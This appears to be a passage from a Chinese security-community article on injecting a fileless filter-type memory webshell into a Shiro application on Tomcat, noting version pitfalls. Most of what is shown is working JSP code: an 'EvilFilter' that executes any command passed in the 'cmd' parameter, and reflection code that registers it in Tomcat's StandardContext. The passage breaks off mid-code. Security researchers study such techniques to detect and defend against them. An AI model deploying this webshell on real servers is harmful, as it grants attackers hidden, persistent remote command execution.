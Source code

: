 

# shiro 注入 filter 内存马及 tomcat 版本对获取 context 影响的分析 - 先知社区

shiro 注入 filter 内存马及 tomcat 版本对获取 context 影响的分析

- - -

### 前言

这是个人在学习 filter 内存马注入的时候遇到的一个坑，希望后面学习的小白们能够避开。

#### 环境配置及准备

tomcat：tomcat8.5.50(正确版本)，tomcat8.5.79(踩坑版本)  
shiro 环境：p 神的 Java 安全配套环境 (里面的 shirodemo)[https://github.com/phith0n/JavaThings](https://github.com/phith0n/JavaThings)

### shiro 注入 filter 内存马

在之前有了 jsp 型内存马实现的经验之后，我们需要思考一件事情。之前的以 jsp 形态为主的内存马的使用方式是通过上传文件然后再访问的方式进行利用，那么如果一个网站他没有文件上传的接口或者是功能这样的话我们该如何实现“种马”呢？这就要说到无文件落地内存马了，这种内存马一般是通过反序列化的方式注入到服务端当中而不会出现文件的落地。

如下是一个简单的 jsp 型 filter 内存马的一个简单实现，这里我写的很简洁，前半部分是恶意的 filter，后半部分是注册动态注册 filter

```plain
<%!
    public class EvilFilter implements Filter {
        public void init(FilterConfig filterConfig){
        }

        public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws ServletException, IOException {
            String cmd = servletRequest.getParameter("cmd");
            Runtime.getRuntime().exec(cmd);
            filterChain.doFilter(servletRequest, servletResponse);
        }

        public void destroy(){}
    }
%>

<%
    //StandardContext
    Field field = request.getClass().getDeclaredField("request");
    field.setAccessible(true);
    Request request1 = (Request) field.get(request);
    StandardContext context = (StandardContext) request1.getContext();

    //FilterDef
    Filter filter = new EvilFilter();
    FilterDef filterDef = new FilterDef();
    filterDef.setFilter(filter);
    filterDef.setFilterName("EvilFilter");
    filterDef.setFilterClass(filter.getClass().getName());
    context.addFilterDef(filterDef);

    //FilterConfig
    Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
    constructor.setAccessible(true);
    ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(context, filterDef);
    Field field1 = StandardContext.class.getDeclaredField("filterConfigs");
    field1.setAccessible(true);
    Map filterConfigs = (Map)field1.get(context);
```